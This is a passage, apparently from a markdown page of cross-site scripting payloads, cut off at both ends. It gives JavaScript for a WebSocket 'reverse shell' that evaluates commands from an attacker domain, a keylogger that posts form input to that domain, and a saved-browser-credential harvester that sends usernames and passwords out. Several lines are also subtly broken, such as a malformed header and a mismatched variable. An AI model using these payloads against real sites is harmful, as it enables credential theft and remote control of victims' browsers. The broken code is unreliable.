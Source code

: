 ```js
	});
```

### Reverse Shell

This payload is designed to bind a web socket to an affected host allowing the attacker the potential to send commands to the target client.

```js
sock = new WebSocket('wss://attack.domain.com');
sock.onmessage = (event) => eval(e.data);
```

### Run Keylogger

This payload attempts to steal an affected clients keystrokes and exfiltrate them to the attackers server.

```js
document.addEventListener('change', element => {
		if(!element.target.matches('input, textarea')) return
		fetch('attack.domain.com', {
				method: 'POST',
				headers: { 'Content-Type:' 'application/json' },
				body: JSON.stringify({key: element.target.value})
			})
	});
```

### Steal Saved Browser Credentials

This payload attempts to exploit the behaviour of saved browser credentials by creating a form to autofill on the fly with an XSS vector and harvesting the filled credentials to be sent over the network to the attackers server.

```js
form = document.createElement('form');
usr_name = document.createElement('input');
usr_name.setAttribute('type', 'text');
usr_name.setAttribute('name', 'username');

password = document.createElement('input');
password.setAttribute('type', 'password');
password.setAttribute('name', 'password');

form.appendChild(usr_name);
form.appendChild(password);
document.body.appendChild(form);
document.addEventlistener('click', () =>
	fetch(`attack.domain.com?usr=${usr_name.value}pass=${password.value}`)
);
```

## Exfiltration Servers
